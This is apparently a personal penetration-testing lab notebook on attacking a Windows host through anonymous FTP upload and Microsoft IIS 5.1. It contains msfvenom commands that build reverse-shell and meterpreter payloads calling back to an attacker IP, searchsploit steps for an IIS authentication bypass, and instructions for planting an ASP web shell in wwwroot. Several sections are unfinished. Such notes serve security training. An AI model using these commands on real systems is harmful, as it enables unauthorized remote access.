





Attack Vectors _ Searchsploit

Attack Vectors / Searchsploit

# Microsoft FTP
We are able to upload files from our attack machine /tmp/dir to the target's wwwroot directory using username anonymous without any password.It allows the put command to put any files in the wwwroot. When on a browser, we can read a .txt but cannot execute an .exe. Upload to the /Scripts directory, at least you can see the files. It won't allow to execute .exe but will let you download .php

Create shellcode
`msfvenom -p windows/shell/reverse_tcp LHOST=192.168.119.214 LPORT=5678 -f exe > rev_shell_reverseTcp_192.168.119.214_5678.exe`

Transfer the reverse shell to the /tmp dir

# Remote Desktop Web Connection

# Nikto scan
There are some interesting finds from Nikto that I havne't documented yet.

# Microsoft IIS 5.1
`searchsploit microsoft iis 5.1`

# 4016 - Hit Highlighting Authentication Bypass
`searchsploit -m 4016`
This file comes with some CRLF line terminators. To get rid of them, run dos2unix file.sh
`dos2unix m4016.sh`
**Still need a screenshot of the dos2unix output**

###  Let's use an asp shell found in /usr/share/webshells/asp/cmd-asp-5.1.asp
It too must be adjusted when you see errors in linebreaks after trying to run it in browser. Here is the diff:

### It must be transfered to wwwroot. Login as anonymous with no password, then use the put command to put it into the wwwroot directory

### Browse to the 

### What about meterpreter shell
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.214 LPORT=5678 -f asp > rev_windows_meterpreter_reverseTcp_192.168.119.214_5678_asp.asp`

# ASP should we write asp code?
https://asp.net-tutorials.com/basics/hello-world/

